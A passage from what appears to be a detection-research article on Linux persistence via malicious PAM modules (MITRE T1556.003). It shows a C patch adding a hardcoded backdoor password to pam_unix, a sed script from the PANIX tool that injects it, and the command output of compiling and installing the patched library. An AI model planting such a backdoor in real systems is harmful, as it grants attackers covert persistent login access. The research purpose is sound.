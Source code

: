 A threat actor may patch this code, and introduce an additional check.

```c
/* verify the password of this user */
if (strcmp(p, "_PASSWORD_") != 0) {    
	retval = _unix_verify_password(pamh, name, p, ctrl); 
} else {    
	retval = PAM_SUCCESS; 
}
```

The code now checks:

* If the provided password (`p`) is not equal to the string literal `"_PASSWORD_"`, it proceeds to call `_unix_verify_password` for standard password validation.  
* If the password is `"_PASSWORD_"`, it skips the password verification entirely and directly returns `PAM_SUCCESS`, indicating successful authentication.

The patch introduces a hardcoded backdoor password. Any user who enters the password `"_PASSWORD_"` will bypass normal password verification and be authenticated successfully, regardless of the actual password stored for the account.

### Persistence through T1556.003 - Pluggable Authentication Modules: Malicious PAM

We will be leveraging the [setup_pam.sh](https://github.com/Aegrah/PANIX/blob/main/modules/setup_pam.sh) module from PANIX to test this technique and research potential detection opportunities. This patch is easily implemented by downloading the PAM source code for the correct PAM version from the [linux-pam](https://github.com/linux-pam/linux-pam/releases) GitHub repository, looking for the line to replace, and replacing it with your own hardcoded password:

```bash
echo "[+] Modifying PAM source..."
local target_file="$src_dir/modules/pam_unix/pam_unix_auth.c"
if grep -q "retval = _unix_verify_password(pamh, name, p, ctrl);" "$target_file"; then
	sed -i '/retval = _unix_verify_password(pamh, name, p, ctrl);/a\
	if (p != NULL && strcmp(p, "'$password'") != 0) { retval = _unix_verify_password(pamh, name, p, ctrl); } else { retval = PAM_SUCCESS; }' "$target_file"
	echo "[+] Source modified successfully."
else
	echo "[-] Target string not found in $target_file. Modification failed."
	exit 1
fi
```

After which we can compile the shared object, and move it to the correct PAM directory.

Now let’s run the [setup_pam.sh](https://github.com/Aegrah/PANIX/blob/main/modules/setup_pam.sh) module. This technique requires several compilation tools and downloading a specific Linux-PAM release. Execute the following PANIX command to inject a malicious module.

```
> sudo ./panix.sh --pam --module --password persistence

[+] Determining PAM version...                                                                                          
[+] Detected PAM Version: '1.3.1'
[+] Downloading PAM source...
[+] Download completed. Extracting...
[+] Extraction completed.
[+] Modifying PAM source... 
[+] Source modified successfully.
[+] Compiling PAM source...
[+] PAM compiled successfully.
[+] Detecting PAM library directory...
[+] Backing up original PAM library...
[+] Copying PAM library to /lib/x86_64-linux-gnu/security...
[+] Checking SELinux status...
```